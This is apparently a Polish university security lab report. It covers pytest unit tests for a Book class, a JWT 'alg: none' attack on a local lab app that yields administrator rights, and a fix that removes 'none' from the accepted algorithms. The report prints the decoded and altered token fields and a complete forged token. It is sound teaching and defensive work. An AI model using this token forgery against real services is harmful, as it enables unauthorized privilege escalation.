



## Lab 3 TBO
### Zadanie 1
Ćwiczenie rozpoczęto od opracowania serii testów jednostkowych dla wybranej klasy. W tym wypadku była to klasa Book (technologia wybrana - Python). W tym celu wykorzystano bibliotekę pytest oraz dodano odpowiednie informacje do pliku Dockerfile i requirements.txt. Następnie testy wyegzekwowano z efektem widocznym na Zdj. 1.


Zdj. 1. Błąd zbudowania Dockerfile - wysyp na testach zgodnie z założeniem

### Zadanie 2
w kolejnym etapie próbowano przeprowadzić atak JWT, aby dostać przyznanie praw administratora dla zwykłego użytkownika. W tym celu pobrano token "Boba" przykładowego użytkownika. Zdekodowana wartość tokena Boba wyglądała następująco (odebrana po wysłaniu zapytania):

```javascript
//header
{
  "alg": "HS256",
  "typ": "JWT"
}
//payload
{
  "account": "Bob",
  "role": "User",
  "iat": 1764790137,
  "aud": "https://127.0.0.1/jwt/none"
}
```

Aby móc uzyskać prawa administatora należy podmienic odpowiednie elementy tokena aby pominąć szyfrowanie i ustawić rolę na admina. Zmiany wprowadzono w headerze tak jak widoczne jest to poniżej:

```javascript
// (header)
{
  "alg": "none",
  "typ": "JWT"
}

// (payload)
{
  "account": "Administrator",
  "role": "User",
  "iat": 1764790137,
  "aud": "https://127.0.0.1/jwt/none"
}
```
a następnie zakodować go w formacie base64 aby móc podać go w zapytaniu przez token JWT. Ostateczny token wyglądał następująco:
```python
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhY2NvdW50IjoiQWRtaW5pc3RyYXRvciIsInJvbGUiOiJVc2VyIiwiaWF0IjoxNzY0NzkwMTM3LCJhdWQiOiJodHRwczovLzEyNy4wLjAuMS9qd3Qvbm9uZSJ9.
```

W wyniku wysłania zapytania z powyższym tokenem otrzymano prawa administratora - przeprowadzono atak, co pokazano na Zdj. 2.

Zdj. 2. Przeprowadzony atak JWT

### Zadanie 3
W ostatnim ćwiczeniu przystąpiono do wprowadzenia poprawki w app.json aby uniknąć ataków JWT typu none. Zmiana polegała na usunięciu opcji "none" przy przyjmowanych formach szyfrowania komunikacji. Następnie ponownie zbudowano kontener i sprawdzono możliwość przesyłu szkodliwego JWT. Tym razem atak nie powiódł się jak widać na Zdj. 3.


Zdj. 3. Zablokowany atak JWT, blokada przez brak zapewnienia trybu szyfrowania